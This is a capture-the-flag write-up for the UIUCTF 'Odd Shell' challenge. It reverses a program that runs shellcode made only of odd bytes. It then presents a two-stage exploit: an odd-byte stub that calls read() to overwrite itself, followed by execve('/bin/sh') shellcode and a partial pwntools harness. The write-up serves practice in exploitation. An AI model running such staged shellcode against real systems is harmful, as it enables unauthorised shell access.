 # Odd Shell

Categories: Pwn/Shellcode

Description:
> odd shell
>
>- 107 points
>
>"3D render of a merchant displaying non-euclidean objects"
>
>O ho! You found me! I have a display of oddities available to you!
>
> `nc odd-shell.chal.uiuc.tf 1337`
>
>author: Surg
>[chal](src/chal) [Dockerfile](src/Dockerfile) [nsjail.cfg](src/nsjail.cfg)

**Tags:** pwn, shellcode

## Takeaways

- When having shellcode, take a look at existing data in registers/stack
- Always use hardware breakpoints with self-modifying stuff

## Solution

Let's reverse engineer the source code of the challenge:

```C
#define BASE ((char*)0x123412340000)
int main(void) {
  setvbuf(stdout,NULL,2,0);
  setvbuf(stderr,NULL,2,0);
  setvbuf(stdin ,NULL,2,0);
  puts("Display your oddities:");

  if (mmap(BASE,0x1000,7,0x32,-1,0) != BASE) {
    puts("I can\'t allocate memory!");
    exit(-1);
  }
  long nread = read(0,BASE,0x800);
  if (*(char *)(BASE + nread - 1) == '\n') {
    *(char*)(BASE + nread - 1) = '\0';
    nread = nread - 1;
  }
  for(long i=0; i<nread; ++i) {
    if ((*(byte *)(BASE + i) & 1) == 0) { //byte must be odd
        puts("Invalid Character");
        exit(-1);
  } }

  (*(code *)BASE)(); //invoke shellcode
  return 0;
}
```

As we can see, the source code is simple. The program allocates 1 page at address `0x123412340000` as RWX, reads up to `0x800` bytes of shellcode, and then executes it. The only restriction is that each byte of the shellcode must be odd.

Let's insert a breakpoint at the instruction which jumps to the shellcode and examine the registers:

```python
from pwn import *
context.binary = elfexe = ELF('./chal')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target
gdbscript = '''
# call <shellcode>
hbreak *main+0x15d
continue
'''.format(**locals())
io.recvline()
io.send(b'A\n')
io.interactive()
sys.exit(0)
```

![registers.png](resources/registers.png)

This is interesting!

`$rax` and `$rdi` are 0, and `$rsi` and `$rdx` are the shellcode base address. There seems to be a nice way to overcome the odd byte limitation! With the current registers that we have, we can directly invoke the syscall `read(STDIN_FILENO, BASE, BASE)`. If we change `$rdx` to a more sensible value, then we will effectively overwrite our current shellcode and once we return from the syscall, the overwritten shellcode will continue. Here are our payloads and an illustration:


<table>
<tr>
<td>

```x86asm
/* All bytes here are odd */
31 db           XOR        EBX,EBX
83 c3 1f        ADD        EBX,0x1f
c1 e3 05        SHL        EBX,0x3
8b d3           MOV        EDX,EBX
0f 05           SYSCALL /*read(0, BASE, 0x3e0) */
<SHELLCODE OVERWRITTEN HERE>
```
Stage 1 Shell code

</td>
<td>

```x86asm
xor     rdx, rdx
push    rdx
mov     rbx, 0x0068732f6e69622f
push    rbx
mov     rdi, rsp
push    rdx
push    rdi
mov     rsi, rsp
mov     eax, 0x3b
syscall
```
Stage 2 Shellcode. Unrestricted. Invokes `execve("/bin/sh")`.

</td>
</tr>

</table>


<table>
<tr>
<td align="center">

![before.png](resources/before.png)

`syscall` from Stage 1 is about to be executed

</td>
<td align="center">

![after.png](resources/after.png)

Exactly stepped 1 instruction. The `read()` system call<br/>
overwrote the previous shelcode and its contents afterwards.

</td>
</tr>

</table>

So, if we run the [solution.py](solution.py), we can get a shell at the remote machine and dump the flag!

`uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`
